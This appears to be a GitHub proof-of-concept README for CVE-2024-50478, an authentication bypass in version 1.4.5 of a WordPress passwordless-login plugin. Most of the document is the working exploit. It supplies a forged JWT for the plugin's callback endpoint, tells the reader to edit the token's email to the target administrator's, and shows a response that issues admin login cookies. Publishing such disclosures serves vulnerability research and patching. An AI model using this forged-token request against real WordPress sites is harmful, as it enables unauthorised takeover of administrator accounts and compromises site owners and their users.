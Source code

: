 # CVE-2024-50478
1-Click Login: Passwordless Authentication 1.4.5 - Authentication Bypass via Account Takeover

# Description:
The 1-Click Login: Passwordless Authentication plugin for WordPress is vulnerable to authentication bypass in version 1.4.5. This is due to the plugin not properly verifying a user's identity prior to authenticating them. This makes it possible for unauthenticated attackers to log in as other users, such as administrators, granted they have access to an email.


```
CVE: CVE-2024-50478
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: swoop-password-free-authentication
```

Note this JWT uses admin@admin.com as the admin email address take the token to jwt.io and alter it to the admin email address you want to use.


POC
---

Request

```
GET /wp-json/swoop/v1/callback?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdF9uYW1lIjoiYWRtaW4iLCJlbWFpbCI6ImFkbWluQGFkbWluLmNvbSIsImxhc3RfbmFtZSI6ImFkbWluIn0.Dt6LWMIg64KHHinChTI9v8nElo9L_9RhjdqUmFZTTeQ HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/edit.php?post_type=product&page=woobe
X-Requested-With: XMLHttpRequest
Origin: http://kubernetes.docker.internal
Connection: keep-alive
```

Response

```
HTTP/1.1 200 OK
Date: Tue, 05 Nov 2024 22:03:33 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.13
Set-Cookie: wordpress_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1731017014%7CmVk9jvTvKdWg1CySsAviyqyxYxnyZSXxnOtCaCg1O5p%7C257a852c3899cd432346f69c352f6e18806c938aa1f5fca8cb12e92f1b2e483c; path=/wp-content/plugins; HttpOnly
Set-Cookie: wordpress_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1731017014%7CmVk9jvTvKdWg1CySsAviyqyxYxnyZSXxnOtCaCg1O5p%7C257a852c3899cd432346f69c352f6e18806c938aa1f5fca8cb12e92f1b2e483c; path=/wp-admin; HttpOnly
Set-Cookie: wordpress_logged_in_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1731017014%7CmVk9jvTvKdWg1CySsAviyqyxYxnyZSXxnOtCaCg1O5p%7C4f2126838a4c2b94e19df68d77aaffd20c2c56de80b553f5ecb7d4ae31dcc3e6; path=/; HttpOnly
Content-Length: 65
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"redirect_to":"http:\/\/kubernetes.docker.internal\/wp-admin\/"}
```
